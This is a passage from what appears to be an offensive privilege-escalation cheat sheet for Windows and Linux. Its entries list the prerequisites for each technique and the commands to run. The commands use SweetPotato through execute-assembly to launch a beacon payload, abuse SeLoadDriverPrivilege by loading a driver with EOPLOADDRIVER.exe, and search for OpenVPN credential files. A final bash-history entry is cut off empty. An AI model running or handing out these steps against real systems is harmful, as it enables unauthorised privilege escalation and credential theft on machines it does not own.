 Domain: No

Local Admin: Yes

OS: Windows

Type: Injection

Methods:

1.execute-assembly sweetpotato.exe -p beacon.exe

# 

<a name="impersonation-token-with-seloaddriverprivilege"></a>
# Impersonation Token with SeLoadDriverPrivilege

Domain: No

Local Admin: Yes

OS: Windows

Type: Injection

Methods:

1.EOPLOADDRIVER.exe System\\\\CurrentControlSet\\\\MyService
C:\\\\Users\\\\Username\\\\Desktop\\\\Driver.sys

<a name="openvpn-credentials"></a>
# OpenVPN Credentials

Domain: No

Local Admin: Yes

OS: Windows/Linux

Type: Enumeration & Hunt

Methods:

locate \*.ovpn

<a name="bash-history"></a>
# Bash History

Domain: No

Local Admin: Yes

OS: Linux

Type: Enumeration & Hunt

Methods:
